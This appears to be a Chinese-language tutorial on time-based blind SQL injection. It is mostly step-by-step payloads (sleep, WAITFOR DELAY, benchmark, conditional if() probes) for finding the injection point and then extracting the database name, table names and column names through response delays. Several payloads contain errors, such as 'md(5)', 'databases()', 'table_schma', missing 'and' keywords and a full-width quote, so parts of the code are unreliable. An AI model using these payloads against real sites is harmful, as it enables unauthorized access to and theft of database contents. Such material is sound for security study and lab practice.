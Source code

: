 在页面上无论正确与否，都没有任何提示的情况下：
sql语句延迟多少秒，网站响应就延迟多少秒，证明存在sql注入。

关键词
判断：if
延时：sleep(5) ，select SLEEP(5);
执行次数过多延迟：benchmark(1000000,md(5))
注意不能过多可能造成数据库拒接服务，宕机。

oracle时间盲注函数：DBMS_PIPE.RECEIVE_MESSAGE 。dbms_pipe.receive_message

sqlserver时间盲注函数：WAITFOR DELAY   。waitfor delay
```
sqlserver
?a=1 WAITFOR DELAY '0:0:3'
?a=1%20WAITFOR%20DELAY%20'0:0:3'
```

^
基于时间的盲注，常和布尔结合起来用
```
' and if(length(database())=8,sleep(3),null) --+ //正确的话就执行sleep
' and if(length(database())=8,1,sleep(3)) --+ //正确的话就不执行sleep
'or if(length(database())=8,sleep(3),null) or '1'='1
```

## 1、判断闭合方式

```
?id=1' sleep(5) --+

语句：
?id=1' and sleep(5)-- -  //正常休眠
?id=1" and sleep(5)-- -  //无休眠
?id=1') and sleep(5)-- - //无休眠
?id=1") and sleep(5)-- - //无休眠
总结：由此可以判断注入点为数值型注入点 包裹符号为'号
```

## []()2、判断数据库的长度

```
?id=1' if(length(database())>8,1,sleep(5)) --+
```

## []()3、判断数据库的第一个字符

```
?id=1' if(ascii(substr(database() ,1,1))>110,1,sleep(5)) --+
```

## []()4、判断表的数量

```
?id=1' if(select length(table_name) from information_schema.tables where table_schema=database())>4,1,sleep(5)) --+
```

## []()5、判断第一个表的名称

```
?id=1’ if((select ascii(substr(table_name,1,1)) from information_schema.tables where table_schema=database() limit 0,1)>100,1,sleep(5)) --+
```

## []()6、获取字段的数量

```
?id=1' if((select length(column_name) from information_schema.columns where table_schema=databases() and table_name='表名' limit 0,1)>5,1,sleep(5)) --+
```

## []()7、获取第一个字段的名

```
?id=1' if((select ascii(substr(column_name,1,1)) from information_schema.columns where table_schma=database() and table_name='表名' limit 0,1)>100,1,sleep(5)) --+
```


